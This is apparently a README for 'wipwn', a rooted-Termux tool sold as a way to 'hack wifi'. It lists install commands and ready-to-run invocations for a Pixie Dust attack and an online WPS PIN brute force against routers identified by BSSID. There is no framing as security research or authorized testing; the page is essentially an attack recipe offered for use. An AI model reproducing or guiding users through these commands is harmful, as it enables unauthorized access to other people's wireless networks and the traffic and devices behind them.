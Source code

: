 # wipwn
Hack wifi using termux (rooted)

## <a href = "https://t.me/cybersh_official/127" > Tutorial</a>

### Installation :

```bash
pkg update && pkg upgrade -y
pkg install root-repo -y
pkg install git tsu python termux-api wpa-supplicant pixiewps iw -y
git clone https://github.com/Gtajisan/wps
pip install requests
cd wps
chmod +x wps.py
```
### Single cmd Setup
```
https://github.com/Gtajisan/wps
```
#### Help : 
```
sudo python wps.py --help
```
#### Example : 
```
sudo python wps.py -i wlan0 -K
```

#### Note: 
+ **First turn off your Wifi.**
+ **Turn on Hotspot.**
+ **Turn on Location.**
- Show avaliable networks and start Pixie Dust attack on a specified network.
```
sudo python wps.py -i wlan0 -K
```
- Start Pixie Dust attack on a specified BSSID:
```
sudo python wps.py -i wlan0 -b 00:91:4C:C3:AC:28 -K
```
- Launch online WPS bruteforce with the specified first half of the PIN:
```
 sudo python wps.py -i wlan0 -b 50:0F:F5:B0:08:05 -B -p 1234
```
### Troubleshooting
**"Device or resource busy (-16)" - Turn on Wifi and Then Turn off Wifi.**
#### Modify History : 
rofl0r => Biri_B@B@ => Mohammad_Alamin (Toxinum) => SH TASRIF (CYBER SH)
<br>
<h3>Visitors :</h3>
<br>
<img src="https://profile-counter.glitch.me/ShTasrif/count.svg" alt="Visitors">

<div align="center">

<h3>━━━━ Connect with me ━━━━</h3>

<a href="https://fb.com/cybershbd" target="blank"><img align="center" src="https://raw.githubusercontent.com/rahuldkjain/github-profile-readme-generator/master/src/images/icons/Social/facebook.svg" alt="TOXIC-VIRUS" height="30" width="40" /></a>
<a href="https://twitter.com/cybershbd" target="blank"><img align="center" src="https://raw.githubusercontent.com/rahuldkjain/github-profile-readme-generator/master/src/images/icons/Social/twitter.svg" alt="cybershbd" height="30" width="40" /></a>
<a href="https://fb.com/cybershbd" target="blank"><img align="center" src="https://raw.githubusercontent.com/rahuldkjain/github-profile-readme-generator/master/src/images/icons/Social/facebook.svg" alt="Mohammad Alamin" height="30" width="40" /></a>
<a href="https://instagram.com/cybershbd" target="blank"><img align="center" src="https://raw.githubusercontent.com/rahuldkjain/github-profile-readme-generator/master/src/images/icons/Social/instagram.svg" alt="akxvau" height="30" width="40" /></a>

</div>
